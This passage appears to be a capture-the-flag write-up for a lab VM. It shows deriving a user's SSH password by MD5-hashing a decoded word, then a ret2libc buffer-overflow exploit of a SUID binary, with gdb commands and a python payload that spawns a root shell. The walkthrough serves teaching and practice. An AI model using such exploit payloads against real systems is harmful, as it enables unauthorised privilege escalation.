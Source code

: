 ### Zaz

On the `thor` session we have a file `turtle` which is a series of instructions about movements and directions. These instructions are from a graphic library in python named `turtle`. After writing python scripts that draw these instructions we decode the word `SLASH`. </br>
We tried different hash algorithm and found the password for `zaz`:
```
echo -n "SLASH" | md5sum
ssh zaz@192.168.56.103 
password : 646da671ca01bb5d84dbb5fb2238dc8e
```  

## Buffer overflow 

On the `zaz`'s session we find the file `exploit_me` which is a 32-bit ELF file with a SUID. After opening it in Ghidra we found this pseudo code:
```
bool main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```  
Our input is copied in a buffer of 140 bytes with `strcpy` making it vulnerable to buffer overflow because of the lack of size boundaries. We can overwrite the return address of the function of `main` like a `ret2libc` (system + exit + "/bin/sh").
```
gdb exploit_me
(gdb) disas main
(gdb) b 0x08048420
(gdb) r test
(gdb) info function system 
0xb7e6b060  system

(gdb) info function exit
0xb7e5ebe0  exit

(gdb) info proc map 
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so

(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58

(gdb) r $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
```